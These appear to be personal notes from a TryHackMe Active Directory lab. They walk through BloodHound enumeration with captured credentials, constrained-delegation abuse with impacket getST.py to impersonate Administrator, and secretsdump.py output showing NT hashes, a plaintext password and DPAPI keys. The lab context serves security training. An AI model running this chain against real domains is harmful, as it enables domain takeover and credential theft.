 -------------------------------------------------------------------------------------------------------------

creds work but they don't immediately give me something cool

getting bloodhound to work again

rm -f /etc/resolv.conf
mkdir -p /run/systemd/resolve
echo "nameserver 10.201.39.224" > /run/systemd/resolve/stub-resolv.conf
ln -sf /run/systemd/resolve/stub-resolv.conf /etc/resolv.conf
chmod 644 /run/systemd/resolve/stub-resolv.conf

# Fix sudo hostname warning
grep -q "$(hostname)" /etc/hosts || echo "127.0.1.1 $(hostname)" >> /etc/hosts

# Verify DNS
cat /etc/resolv.conf
nslookup HAYSTACK.thm.corp 10.201.39.224

# Run BloodHound
bloodhound-python -dc HAYSTACK.thm.corp -d thm.corp -u DARLA_WINTERS -p 'marlboro(1985)' -ns 10.201.39.224 --dns-tcp -c ALL

-------------------------------------------------------------------------------------------------------------

It looks like I dont get much of a different perspective listening with her creds

![[Pasted image 20251010114052.png]]

here we see winters has delegations to the cifs service

root@ip-10-201-17-160:/opt/impacket/examples# getST.py -spn cifs/HayStack.thm.corp -dc-ip 10.201.39.224 -impersonate Administrator thm.corp/DARLA_WINTERS:'newPassword2022'



root@ip-10-201-17-160:/opt/impacket/examples# secretsdump.py -k -no-pass HAYSTACK.thm.corp
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ab4f5a5c42df5a0ee337d12ce77332f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
THM\HAYSTACK$:plain_password_hex:cf542204b378656614f4b4812def1b0c4f94baaad25ce6008b5f8e39d27063692c64a1e173e7e5875e1aa3e49340a010d76ede3894df289200987924883d0a10eaa57d28a328bd078dcec4d48d3132e4da28dbaeb39c627eb674f5abc82e7a8155ddc93df3167b313c1f4fb9f8416d5287d0a74e50faf104b63fdaf1de5f9a898b4786f17fbd586b088748c905f93f38d3805cd2da74d78901dc2fa4a5de4a2d1bec33b73d450a7cc2a860c7e2e72bc0e053dab75bf4481286027d3a408cb4a10395337247abba671bef4062aca60d279203981915383ae88b06aaa5ac19ca6ed165fd00003ef6150ef91d5f7c77f1e5
THM\HAYSTACK$:aad3b435b51404eeaad3b435b51404ee:98e36148fc1e4045cca325254374dfac:::
[*] DefaultPassword 
THM\automate:Passw0rd!
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x0e88ce11d311d3966ca2422ac2708a4d707e00be
dpapi_userkey:0x8b68be9ef724e59070e7e3559e10078e36e8ab32
[*] NL$KM 
